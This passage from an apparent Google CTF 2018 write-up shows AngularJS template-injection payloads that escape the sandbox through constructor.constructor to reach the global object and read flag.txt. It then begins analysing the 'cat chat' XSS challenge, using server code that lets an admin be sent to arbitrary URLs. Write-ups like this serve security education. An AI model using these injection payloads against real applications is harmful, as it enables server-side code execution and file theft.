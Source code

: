 And it returns:
```javascript
[ "$SCOPE", [ "$$childTail", "$$childHead", "$$nextSibling", "$$watchers", "$$listeners", "$$listenerCount", "$$watchersCount", "$id", "$$ChildScope", "$parent", "$$prevSibling", "$$transcluded" ] ]
```

Now, let's find what is in the `$parent`:
```javascript
{% raw %}{{[constructor.constructor('return global')().a=this,constructor.constructor('return Object.getOwnPropertyNames(global.a.$parent)')()] | json}}{% endraw %}
```

And the result is:

```javascript
[ "$SCOPE", [ "$$childTail", "$$childHead", "$$nextSibling", "$$watchers", "$$listeners", "$$listenerCount", "$$watchersCount", "$id", "$$ChildScope", "$parent", "$$prevSibling", "window", "i18n", "userQuery" ] ]  
```

What's more, there is a function called `template` inside i18n. We can use it to read flag now:

```javascript
{% raw %}{{[constructor.constructor('return global')().a=this,constructor.constructor('return global.a.$parent.i18n.template("flag.txt")')()] | json}}{% endraw %}
```



## cat chat

So we enter this:
![CAT1](/assets/Google-CTF-2018/cat1.png)

Let's view the source, and we can find something more interesting:
![CAT2](/assets/Google-CTF-2018/cat2.png)

We can also get partial source of the server/client, click:
- the back-end: [server.js](/assets/Google-CTF-2018/server.js)
- [style.css](/assets/Google-CTF-2018/style.css)
- [index.html](/assets/Google-CTF-2018/cat.html)
- and a front-end JavaScript file: [catchat.js](/assets/Google-CTF-2018/catchat.js)

Looking at this, we can confirm this is an XSS challenge:
```javascript
// Check if user is admin based on the 'flag' cookie, and set the 'admin' flag on the request object
app.use(admin.middleware);
```

What's more, we can let the admin access arbitrary host with `/report` option:
```javascript
case '/report':
  if (!(arg = msg.match(/\/report (.+)/))) break;
  var ip = req.headers['x-forwarded-for'];
  ip = ip ? ip.split(',')[0] : req.connection.remoteAddress;
  response = await admin.report(arg[1], ip, "https://${req.headers.host}/room/${room}/");
```
